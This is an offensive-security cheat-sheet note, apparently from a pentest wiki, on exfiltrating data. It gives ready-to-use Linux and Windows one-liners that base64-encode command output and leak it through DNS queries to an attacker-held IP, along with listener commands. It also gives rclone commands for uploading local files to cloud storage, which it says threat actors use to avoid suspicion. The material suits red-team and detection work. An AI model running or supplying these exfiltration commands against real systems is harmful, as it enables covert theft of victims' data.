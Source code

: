 # General - Data exfiltration

The following note details the technics and tools that can be used to
exfiltrate data through an indirect channel.

### DNS exfiltration

###### Limited exfiltration using built-in utilities

DNS queries can be used to exfiltrate data through the requested domain name.

```
# Listener
tcpdump -i <INTERFACE> udp port 53
# Every Responder's servers can be turned off in Responder.conf, except for the DNS service
responder -i <INTERFACE>

# Linux
<COMMAND> | while read data; do datab64=`echo $data | base64 -w 0`; host $datab64.ex.data <IP>; done

# Windows
nslookup <%VARIABLE%> <IP>
# The DOS for loop only output the number of columns specified by the tokens parameter. 1 = %a, 2 = %b, etc.
for /f "tokens=1,2,3" %a in ('<COMMAND>') do nslookup %a.%b.%c <IP>

cmd.exe /c "for /f ""tokens=1,2,3"" %a in ('<COMMAND>') do nslookup %a.%b.%c <IP>"
```

### rclone

`rclone` is a command line utility written in `Go` to download  / upload files
and directories to and from over 40 cloud storage providers. In addition to
more classical file upload services (`FTP`, `SFTP` / `FTPS`, `Webdav`, etc.),
`rclone` supports a number of cloud services: `MEGA`, `Google Drive`,
`Microsoft OneDrive`, `Amazon S3 buckets`, `Azure Blob Storage`, etc.).  

`rclone` provides cloud equivalents to the `unix` common commands `cat`, `ls`,
`mkdir`, `cp`, `mv`, `mount`, etc. commands. It supports multi-retries and
verifies file operations using checksums.

It is notably used by some threats actors to exfiltrate files to online file
storage and cloud provider with out raising suspicion.

```bash
# Lists the supported services.
rclone help backends

# Configures a remote through an interactive configuration prompt.
rclone config

# Lists all the configured remotes.
rclone listremotes

# Displays information of the configured remotes (by printing the decrypted config file).  
rclone config show

# Files operation to respectively list files, create a (product-specific) folder, print / upload / download / delete a file.
rclone ls <REMOTE_NAME>:
rclone tree <REMOTE_NAME>:
rclone mkdir <REMOTE_NAME>:<FOLDER_NAME>
rclone cat <REMOTE_NAME>:<FILE_PATH>
rclone copy <LOCAL_FILE> <REMOTE_NAME>:<FILE_PATH>
rclone copy <REMOTE_NAME>:<FILE_PATH> .
rclone deletefile <REMOTE_NAME>:<FILE_PATH>
# Recursively delete all files in the specified remote / (product-specific) folder.
rclone delete <REMOTE_NAME>:
rclone delete <REMOTE_NAME>:/<FOLDER>/

# Mount the specified remote as a local filesystem mountpoint (blocking execution).
rclone mount <REMOTE_NAME>: <LOCAL_MOUNTPOINT_PATH>

# Example to configure a Microsoft Azure blob remote, copy a local file to the remote and validate the copy by listing and printing the created file.
rclone config create <REMOTE_NAME> azureblob account <STORAGE_ACCOUNT_NAME> key <STORAGE_ACCOUNT_KEY>
rclone copy <LOCAL_FILE> <REMOTE_NAME>:/<STORAGE_ACCOUNT_CONTAINER>/
rclone ls <REMOTE_NAME>:
rclone cat <REMOTE_NAME>:/<STORAGE_ACCOUNT_CONTAINER>/<FILE_NAME>
```
